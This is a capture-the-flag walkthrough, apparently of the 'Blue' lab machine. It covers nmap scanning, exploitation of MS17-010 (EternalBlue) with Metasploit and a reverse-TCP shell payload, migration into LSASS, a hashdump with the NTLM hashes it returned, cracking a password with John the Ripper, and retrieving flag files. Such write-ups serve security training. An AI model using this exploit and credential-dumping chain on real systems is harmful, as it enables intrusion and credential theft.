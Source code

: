 # Blue

## Machine info





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.253.11 -oN port_scan.txt

Nmap scan report for 10.10.253.11
Host is up (0.036s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2025-07-28T14:22:00
|_Not valid after:  2026-01-27T14:22:00
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2025-07-29T14:23:34+00:00
|_ssl-date: 2025-07-29T14:23:40+00:00; -2s from scanner time.
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49160/tcp open  msrpc         Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 2008|7|Vista|8.1
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1
Network Distance: 2 hops
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-29T14:23:34
|_  start_date: 2025-07-29T14:21:58
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-29T09:23:34-05:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 59m57s, deviation: 2h14m09s, median: -2s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:18:ab:86:6d:ff (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

```



## SMB vuln enumeration

```bash
nmap -p 445 --script vuln 10.10.253.11

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
```

The host is vulnerable to ms17-010 vulnerability called EternalBlue.



## EternalBlue with Metasploit

Start metasploit and search the modules for thid vulnerability.

```bash
service postgresql start && msfconsole

search ms17-010
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use the first module which we found.

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Set the confs and run the exploit

```bash
set RHOSTS 10.10.253.11
set payload windows/x64/shell/reverse_tcp
exploit
```

The exploit was success!

Now we can upgrade our shell into meterpreter shell

```
session -u 1
```

Then, that we have a meterpreter session go to PrivEsc part



## PrivEsc

We are already NT AUTHORITY/SYSTEM but we can migrate our process to obtain all rights.

```bash
ps
migrate LSASS_PID
```

Now we can use the HASHDUMP module of meterpreter to dump all hash in the machine.

```
hashdump

# output 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Copy the jon row into a file and try to crack it with John the ripper.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=NT

# output
alqfna22         (Jon)  
```



## Flags

Flag1? _This flag can be found at the system root._&#x20;

```powershell
cd C:\
more flag1.txt
```



Flag2? _This flag can be found at the location where passwords are stored within Windows._

```powershell
cd C:\Windows\System32\config
more flag2.txt
```



flag3? _This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved._&#x20;

```powershell
cd C:\Users\Jon\Documents
more flag3.txt
```
